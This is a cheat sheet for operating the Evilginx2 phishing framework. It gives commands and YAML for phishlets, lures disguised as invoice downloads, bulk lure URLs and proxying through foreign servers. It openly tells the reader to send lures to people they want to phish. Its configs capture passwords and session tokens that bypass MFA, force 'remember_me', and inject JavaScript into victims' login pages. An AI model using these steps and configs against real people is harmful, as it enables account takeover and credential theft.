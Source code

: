 # Evilginx CheatSheet

1. Clone the git repo of [evilginx](https://github.com/kgretzky/evilginx2).

2. Configure [phishlets](https://github.com/kgretzky/evilginx2/blob/master/phishlets/example.yaml). Sample in link, amazing YAML ease of use.

3. Once the phishlets are configured, open Evilginx and you will see the phishlet. Then configure the domain and IP.
    ![with phishlet I created](image.png)

4. You can get help like `help <keyword>`.

5. Set the hostname which should end with the domain you created when configuring the domain and IP, like `same.dummy.com`.

6. Set the hosts file entry if in local.

7. Set the lure up. Create a lure using `lures create <phishlet>`. The rest of it `help lures` gives the manual.

8. Once you get the lure URL, either send it to someone you want to phish or try the URL if you are testing it out.

9. The session will be captured. Make sure to add the modifier `always` to capture the session token without an expiry date. You can use `sessions` to list sessions, and `sessions <id>` to list the details of the session.

10. You can personalize the lures. Example of sending the lure as an invoice download: `lures edit 0 path /download/invoice/5465/`. You can change the hostname of the URL by `lures edit 0 hostname this.is.a.real.website.fake.com`.

11. You can use custom parameters in lures like `lures get-url 0 email=abhishek@gmail.com name="Abhishek Narasimhan"`. Every time the URL parameter would be different and will be difficult to find.

12. Replacing content on the fly is amazing. Example: changing the "Login" button to anything you want it to be by updating the sub-filters in the YAML file. Example:
     ```yaml
     sub_filters:
        - {triggers_on: 'dummy.dum.evilginx.com', orig_sub: 'akira', domain: 'dum.evilginx.com', search: '" Login "', replace: '" Get Phished! "', mimes: ['text/javascript']}
     ```

13. Forcing POST parameters, for example, to keep the user logged in even if they did not select the option. Example configuration in YAML file:
    ```yaml
    path: '/api/v1/auth/login'
    search: 
      - {key: 'email', search: '.*'}
      - {key: 'password', search: '.*'}
    force:
      - {key: 'remember_me', value: '1'}
    type: 'post'
    ```

14. No session token. What can be done? Format sent in JSON. The credential setting to check in JSON format is different.
    * There are instances where MFA is not enabled and the token will be present in the login endpoint.
    * Example in YAML:
    ```yaml
    auth_tokens:
      - domain: 'dummy.dum.evilginx.com'
        path: '/api/v1/auth/.*'
        name: 'token'
        search: '"token":"([^"]*)"'
        type: 'body'
    credentials:
      username:
        key: ''
        search: '"email":"([^"]*)"'
        type: 'json'
      password:
        key: ''
        search: '"password":"([^"]*)"'
        type: 'json'
    ```

15. JS injection using Evilginx.

    For the JS to be injected, you need to add `trigger_params` and its parameter; otherwise, it won't be injected. Sample YAML for `js_inject`:
    ```yaml
    js_inject:
      - trigger_domains: ["dummy.dym.evilginx.com"]
        trigger_paths: ["/"]
        trigger_params: ["email"]
        script: |
          function aaa() {
            var u = document.querySelector("input[type=email]");
            var p = document.querySelector("input[type=password]");
            var c = document.querySelector("#rememberCheck");
            if (u !== null && p !== null && c !== null) {
              c.checked = true;
              u.value= "{email}";
              p.focus();
            }
            else {
              bbb();
            }
          }
          function bbb() {
            setTimeout(function() {aaa();}, 100);
          }
          bbb();
    ```

16. Redirector are good and can be used for having landing lure pages. /Redirector is where you can have the .html or .css.
  - $ lures edit 0 redirector download_example

17. bulk lure url is another very good feature. You can either use txt or csv or json.
  - $ lures get-url 0 import <filepath>

18. You can actually use evinginx as a proxy itself.. Say you have server in Russia, and user to be phishing is in US, we can use ti for example.
  - $ proxy <option>
  - $ proxy enable

19. Blacklist Management - automatic blacklist of IP when there is no auth. You can remove the IP from blacklist from blacklist.txt file in .eviginx which
is present in C:\users\.evilginx\blacklist.txt.
  - $ blacklist <option>

